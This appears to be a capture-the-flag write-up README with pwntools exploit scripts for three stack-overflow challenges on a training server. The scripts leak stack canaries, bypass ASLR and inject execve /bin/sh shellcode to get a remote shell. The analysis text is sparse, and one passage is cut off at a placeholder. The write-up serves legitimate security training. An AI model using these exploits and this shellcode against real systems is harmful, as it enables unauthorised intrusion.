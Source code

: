 # leakers ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge is again on a *buffer overflow* vulnerability, as we can immediately see from the disassembled source code on Ghidra. However, this time we can see through ```checksec ./leakers``` that a **canary** mitigation is enabled.

Btw we can easily bypass it by exploiting the fact that there is a printf in the code that, as we know, prints strings until it finds a nulla byte 0x00. Moreover, a canary typically starts with this nulla byte in order to XXXXXX

### Exploit
```python
from pwn import *
import time

context.terminal = ['tmux', 'splitw', '-h']
#ssh = ssh("acidburn", "192.168.56.103")
#r = ssh.process("./leakers")
#gdb.attach(r, """
#	b *0x000401200
#	c
#	""")

r = remote("training.jinblack.it", 2010)

input("wait")

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8

r.send(shellcode)
time.sleep(0.1)

r.send("A"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

wheretojump = 0x00404080

payload = b"A" * 104 + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```


# gonnaleak ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```python
from pwn import *
import time

#context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['terminator', '-e']
#r = process("./gonnaleak")
#gdb.attach(r, """
#	c
#	""")

r = remote("training.jinblack.it", 2011)

input("wait")


shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
shellcode = shellcode.rjust(104, b"\x90")
#r.send(shellcode)
#time.sleep(0.1)

r.send("A"*(105))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)


r.send("A"*(136))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(136)
wheretojump = u64(r.recv(6) + b"\x00"*2)
print("0x%x" % wheretojump)
wheretojump = wheretojump - 0x150
print("0x%x" % wheretojump)


#payload = b"A"*104 + p64(canary) + b"B"*8 + p64(wheretojump)
payload = shellcode + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

# aslr ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```python
from pwn import *
import time
'''
context.terminal = ['tmux', 'splitw', '-h']
r = process("./aslr")
gdb.attach(r, """
	c
	""")
'''
r = remote("training.jinblack.it", 2012)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
r.send(shellcode)
time.sleep(0.1)

r.send("B"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("canary 0x%x" % canary)

offset = 0x2005c0
r.send("A"*112)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(112)
add = u64(r.recv(8) + b"\x00" + b"\x00") 
add = add + offset
payload = b"a"*104 + p64(canary) + b"b"*8 + p64(add)
r.send(payload)

r.interactive()
```
